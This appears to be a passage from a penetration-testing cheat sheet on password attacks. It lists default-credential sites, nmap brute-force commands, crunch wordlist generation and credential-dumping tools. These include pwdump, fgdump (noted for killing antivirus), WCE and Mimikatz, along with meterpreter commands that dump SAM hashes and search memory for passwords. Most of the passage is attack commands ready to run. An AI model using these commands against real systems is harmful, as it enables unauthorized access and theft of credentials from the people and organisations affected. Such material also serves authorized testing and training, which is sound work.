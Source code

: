 Or convert html to word list dict
html2dic index.html.out | sort -u > index-html.dict

Default Usernames and Passwords

CIRT
http://www.cirt.net/passwords

Government Security - Default Logins and Passwords for Networked Devices

http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php

Virus.org
http://www.virus.org/default-password/

Default Password
http://www.defaultpassword.com/

Brute Force

Nmap Brute forcing Scripts
https://nmap.org/nsedoc/categories/brute.html

Nmap Generic auto detect brute force attack
nmap --script brute -Pn <target.com or ip> <enter>

MySQL nmap brute force attack
nmap --script=mysql-brute $ip

Dictionary Files

Word lists on Kali
cd /usr/share/wordlists
Key-space Brute Force

crunch 6 6 0123456789ABCDEF -o crunch1.txt

crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha

crunch 8 8 -t ,@@^^%%%

Pwdump and Fgdump - Security Accounts Manager (SAM)

pwdump.exe - attempts to extract password hashes

fgdump.exe - attempts to kill local antiviruses before attempting to dump the password hashes and cached credentials.

Windows Credential Editor (WCE)

allows one to perform several attacks to obtain clear text passwords and hashes

wce -w

Mimikatz

extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets
https://github.com/gentilkiwi/mimikatz From metasploit meterpreter (must have System level access): meterpreter> load mimikatz meterpreter> help mimikatz meterpreter> msv meterpreter> kerberos meterpreter> mimikatz_command -f samdump::hashes meterpreter> mimikatz_command -f sekurlsa::searchPasswords
Password Profiling
